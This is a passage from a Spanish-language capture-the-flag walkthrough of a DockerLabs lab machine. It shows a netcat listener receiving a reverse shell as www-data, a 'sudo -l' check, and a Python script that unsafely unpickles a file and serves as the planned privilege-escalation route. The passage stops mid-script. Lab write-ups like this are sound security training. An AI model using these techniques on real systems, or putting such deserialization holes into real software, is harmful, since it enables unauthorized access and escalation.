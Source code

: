 lo ejecutamos y recibimos una conexion desde la maquina victima:

```css
❯ nc -nlvp 9090
Listening on 0.0.0.0 9090
Connection received on 172.17.0.2 57308
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Escalada De Privilegios

### www-data

Si ejecuto `sudo -l` veo lo siguiente:

```css
www-data@dockerlabs:/$ sudo -l
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (maci) NOPASSWD: /bin/python3 /home/maci/.time_seri/time.py
www-data@dockerlabs:/$ 
```

Viendo esto, intento leer el archivo .py y veo lo siguiente:

```python
import pickle
import os

file_path = "/opt/data.pk1"
config_file_path = "/home/maci/.time_seri/time.conf"

def load_pickle_file(file_path):
    """Carga un archivo pickle y devuelve su contenido."""
    if not os.path.exists(file_path):
        print(f"El archivo {file_path} no se encontró.")
        return None
    
    try:
        with open(file_path, 'rb') as f:
            data = pickle.load(f)
            return data
    except PermissionError:
        print("No tienes permiso para leer el archivo.")
    except pickle.UnpicklingError:
        print("Error al deserializar el archivo: el archivo puede estar corrupto o no es un archivo pickle válido.")
    except EOFError:
        print("El archivo está vacío o truncado.")
    except Exception as e:
        print(f"Ocurrió un error inesperado: {e}")
    
    return None

def is_serial_enabled(config_file_path):
    """Verifica si la serialización está habilitada en el archivo de configuración."""
    if not os.path.exists(config_file_path):
        print(f"El archivo de configuración {config_file_path} no se encontró.")
        return False
    
    with open(config_file_path, 'r') as config_file:
```